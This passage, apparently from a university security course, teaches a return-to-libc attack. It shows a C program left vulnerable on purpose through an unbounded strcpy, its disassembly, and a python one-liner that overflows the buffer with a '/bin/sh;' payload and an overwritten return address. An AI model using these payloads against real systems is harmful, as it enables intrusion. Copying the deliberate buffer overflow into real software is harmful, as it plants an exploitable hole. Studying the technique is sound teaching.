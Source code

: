 Let's now look at what it takes to do a return to libc attack where we
don't get lucky with the stack alignment. Here's another vulnerable
program:

``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void vuln(char * str){
  char buf[32];


  strcpy(buf,str);

  printf("%s\n",buf);
}

int main(int argc, char *argv[]){

  vuln(argv[1]);

  return 0;

}
```

We can do a stack smash alignment like last time:

``` example
0804844d <vuln>:
 804844d:   55                      push   ebp
 804844e:   89 e5                   mov    ebp,esp
 8048450:   83 ec 38                sub    esp,0x38
 8048453:   8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048456:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804845a:   8d 45 d8                lea    eax,[ebp-0x28] #<---
 804845d:   89 04 24                mov    DWORD PTR [esp],eax
 8048460:   e8 ab fe ff ff          call   8048310 <strcpy@plt>
 8048465:   8d 45 d8                lea    eax,[ebp-0x28]
 8048468:   89 04 24                mov    DWORD PTR [esp],eax
 804846b:   e8 b0 fe ff ff          call   8048320 <puts@plt>
 8048470:   c9                      leave  
 8048471:   c3                      ret    
```

Now when we run our exploit we get:

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???
sh: 1: 4: not found
Segmentation fault (core dumped)
```
